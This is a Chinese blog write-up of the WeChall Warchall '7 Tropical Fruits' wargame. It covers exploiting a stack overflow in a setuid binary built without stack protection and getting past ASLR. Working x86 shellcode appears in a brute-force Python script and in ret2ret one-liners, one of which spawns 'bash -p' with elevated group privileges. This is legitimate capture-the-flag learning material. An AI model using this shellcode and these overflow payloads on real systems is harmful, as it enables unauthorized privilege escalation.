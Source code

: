 ```yaml
---
title: 'Writeup-Training: Warchall &#8211; 7 Tropical Fruits'
layout: post
categories: blog
tags: [Hack, Python, Writeup]
---
```

<p style="color: #000000;">
  Challenge URL：<a style="color: #294666;" href="http://www.wechall.net/challenge/warchall/tropical/7/index.php">Training: Warchall &#8211; 7 Tropical Fruits</a>
</p>

Wechall的tropic这道题真是撸得我考试周复(yu)习(xi)都没心思了，花了两天半终于搞定了，才63人做出来的题目居然是training！！！

做这题的时候也是我第一次写shellcode，不过这道题难点不在于shellcode怎么写，而在于坑爹的ASLR。不说stack的地址一直在变，居然连linux-gate.so都在变！

一开始查了好久，发现个思路叫ret2libc，然后我gdb了一下，发现system()的地址虽然是随机的，但是有6位是不变的。然后我就撸啊撸，撸了个shell脚本，速度不错，居然半分钟之内就能把system(&#8220;sh&#8221;)跑出来。看到&#8221;sh-4.2$&#8221;的时候我那叫一个激动啊。坑爹的是system()这货执行的时候居然会丢掉suid的权限(man system#NOTES)。

所以忙活了一天，我的成果就是，在一个shell下面，再开一个shell&#8230;&#8230;

然后第二天我不甘心啊，就找啊找找啊找，找到了exec函数族。

{% highlight c %}
#include <unistd.h>
extern char **environ;
int execl(const char *path, const char *arg, ...);
int execlp(const char *file, const char *arg, ...);
int execle(const char *path, const char *arg, ..., char * const envp[]);
int execv(const char *path, char *const argv[]);
int execvp(const char *file, char *const argv[]);
int execve(const char *path, char *const argv[], char *const envp[]);
//其中只有execve是真正意义上的系统调用，其它都是在此基础上经过包装的库函数。
{% endhighlight %}

这货厉害，suid会传递下去，但是悲催的是每个函数的参数不止一个，而且大多都要求最后一个参数为NULL(直接无视)，但是execv之类的函数又不方便构造后面的那些二阶指针，所以我昨天就是在满屏的Segmentation Fault中度过的，偶尔出现的Invalid Instruction能让人高兴好一阵。

第二天无果，不过我cat了一下compile7.sh，发现了好玩的东西

{% highlight sh %}
#!/bin/bash
gcc -fno-stack-protector -z execstack level7.c -o level7
chmod 6755 level7
{% endhighlight %}

是的&#8230;出题者把DEP关掉了&#8230;然后我就睡不着了

## 解法：

今天早上考完离散就立马赶回寝室继续撸这道题，虽然解法很很蠢(对stack的5个随机位进行碰撞)，但是至少能在10分钟内出结果……

先给solution.txt建一个到工作目录软连接:

{% highlight sh %}
$ ln -s /home/level/tropic/7/solution.txt ./lk
{% endhighlight %}


然后跑这个python脚本：

{% highlight python %}
# -*- coding=utf8 -*-
__author__ = 'Cubarco'


def tropic_crack():
    try:
        shellcode = "1\xc0\x99Rh/cath/bin\x89\xe3Rh./lk" \
                    "\x89\xe1\xb0\x0bRQS\x89\xe1\xcd\x80"
        stack_hex = hex(random.randint(0xbf00000, 0xbffffff)*0x10+0x01)[:-1]
        stack_int = int(stack_hex, 16)
        path = "/home/level/tropic/7/level7"
        args = [path,
                '\x90'*(312-len(shellcode))
                + shellcode
                + struct.pack('&lt;L', stack_int)]
        args[1] = args[1].replace("(", "\\(")\
                         .replace("\"", "\\\"")\
                         .replace(")", "\\)")\
                         .replace("\\", "\\\\")\
                         .replace("\'", "\\\'")
        p = subprocess.Popen(args,
                             stdout=subprocess.PIPE,
                             stderr=subprocess.PIPE,
                             shell=False)
        rsp = p.stdout.read()
        if rsp != '':
            print rsp
    except:
        # print traceback.format_exc()
        # 好像subprocess开太快了会出问题...
        pass


if __name__ == '__main__':
    import struct
    import random
    import subprocess
    import traceback
    
    while True:
        tropic_crack()
{% endhighlight %}

做完题去题解讨论区看到个ret2ret的思路感觉好棒，有时间研究一下。

对了，跑脚本的时候如果它卡住了而且ctrl+c关不掉请不要来打我。正确姿势是killall&#8230;..

UPDATE: 刚看了一下ret2ret，我想去死一死了。是的，只用下面一句话就能搞定，oh，前提还是给solution.txt建立一个到工作目录的软链接，名字是lk（其实是因为./lk刚好是四字节， 如果用原来的路径好麻烦还要四字节对齐，偷个懒）

{% highlight sh%}
$ /home/level/tropic/7/level7 `python -c "print '\x90'*(312-33)+'1\xc0\x99Rh/cath/bin\x89\xe3Rh./lk\x89\xe1\xb0\x0bRQS\x89\xe1\xcd\x80'+'\xd2\x84\x04\x08'"`
# 0x080484d2是程序里面一个执行ret指令的地址，随便挑！
{% endhighlight %}

更BT一点还可以这样，跑一个/bin/bash -p：

{% highlight sh%}
$ /home/level/tropic/7/level7 `python -c "print '\x90'*(312-33)+'j\x0bX\x99Rfh-p\x89\xe1Rjhh/bash/bin\x89\xe3RQS\x89\xe1\xcd\x80'+'\xd2\x84\x04\x08'"`
bash-4.2$ id
uid=4057(cubarco) gid=4057(cubarco) egid=1008(level7) groups=4057(cubarco)
# 然后你就有level7的egid了...
{% endhighlight %}

##  参考：

  1. Hackers Hut#[Smashing The Stack][1](ASLR bypassing overview)
  2. [Performing a ret2libc Attack][2](ret2libc)
  3. [Return-to-libc Attack Lab][3](ret2libc)
  4. [Smack the Stack][4](ret2ret)

 [1]: http://www.win.tue.nl/~aeb/linux/hh/hh-10.html
 [2]: http://protostar-solutions.googlecode.com/hg/Stack%206/ret2libc.pdf
 [3]: http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Return_to_libc/Return_to_libc.pdf
 [4]: http://web.textfiles.com/hacking/smackthestack.txt
